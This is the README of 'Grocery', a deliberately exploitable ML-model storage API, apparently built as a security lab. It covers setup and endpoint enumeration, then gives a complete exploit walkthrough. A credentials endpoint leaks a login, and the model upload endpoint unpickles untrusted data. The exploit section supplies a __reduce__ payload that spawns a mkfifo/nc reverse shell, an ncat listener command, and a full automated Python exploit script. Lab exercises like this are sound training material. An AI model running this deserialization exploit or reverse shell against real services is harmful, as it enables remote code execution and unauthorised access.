 # Grocery
## Exploitable storage service API 
## Ross Clarke

## Setup 

### Single Host

The API can be hosted directly from any machine with python installed. First, be sure to install all the dependencies from the `requirements.txt` file.

From the root directory, run:

	pip3 install -r requirements.txt

Next, you can run the app using: 

	uvicorn main:app --reload

You should now see some startup logs, try connecting to the api from your terminal. Note: be sure to connect using the port specified in the startup logs. 

	curl localhost:8000 

You should see a welcome message returned. This lets you know the app is up and running. 

### Containerized Deployment

Whether you wish to use Kubernetes or another container managemnet solution, you can use the included Dockerfile to create a container image. Run `docker build . --no-cache -t grocery:latest` to build a fresh image that you can deploy wherever you wish. To deploy the container, run `docker run -p 8000:8000 grocery:latest`. 

## Exploit 

### Enumeration

Enumerating the API yeilds 5 endpoints. 

`/` : Root

`/info` : Info

`/user` : User 

`/models` : Model (submit)

`/models/{user}/{model_id}` : Model (fetch)

These endpoints expose some information about the service. Info describes that this is a service that can be leveraged as a "pastebin" service for machine learning models. However, when models are submitted the Model submit endpoint, you receive an "unauthenticated" message. The User endpoint shares a username and password string. If this combo is used, you can post data to the Model submit endpoint. However, not all data ends up giving back a valid 'modelId'. After enumerating the endpoint with different machine learning model formats, only the .pkl or "pickle" format returns a valid modelId (starting with id = 0). Now, you are able to retrieve your model with the Model fetch endpoint by providing the given modelId and credentials. 

### Exploit 

Since the Model submit endpoint only accepts valid pickled data, this may means the format of the pickled data is being checked somehow. In this instance, the data is being loaded into memory using the standard python pickle libary. Reading the documentation warns to not unpickle untrusted data. This is because the pickle library leverages a standard function called `reduce`. This function can be overwritten by the pickle object (serialized pickled data) to any arbitrary valid python code, and when the pickle object is deserialize (unpickled) that `reduce` function is used. In python, overwriting standard object functions can be done simply by defining a new reduce function as so:

	def __reduce__(self):
		# Some valid Python code

To exploit the API, you must implement some malicious logic in this python function. Below is an example of a reverse shell:

	def __reduce__(self):
		cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
			'/bin/sh -i 2>&1 | nc 127.0.0.1 1337 > /tmp/f')
		return os.system, (cmd,)

You can define any class with this function, instantiate it, and pickle it like so `pickle.dumps(YOUR_OBJ)` . Printing this will proudce a sequence of bytes, which can be passed in the body of the request to the Model submit endpoint. When the request is sent, the python code in `__reduce__` will run on the host and reach back out to the specified host on port `1337`. Be sure to be listening on that port for the reverse shell before sending the malicious request. 

Tip: run the following to listen for incoming connections:

	ncat -lv 1337

An automated exploit in python is provided below:

```
import pickle
import base64
import os
import requests

from requests.auth import HTTPBasicAuth

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1337 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    url = 'API_IP_ADDRESS'
    
    ## Fetch credentials
    credsResp = requests.get(f'{url}/user')
    credsJson = credsResp.json()
    
    ## Send malicious model
    basic = HTTPBasicAuth(credsJson['username'], credsJson['password'])
    pickled = pickle.dumps(RCE())
    my_state_vectors = base64.urlsafe_b64encode(pickled)
    resp = requests.post(f'{url}/models', data=my_state_vectors, auth=basic)
    print(resp.content)
```

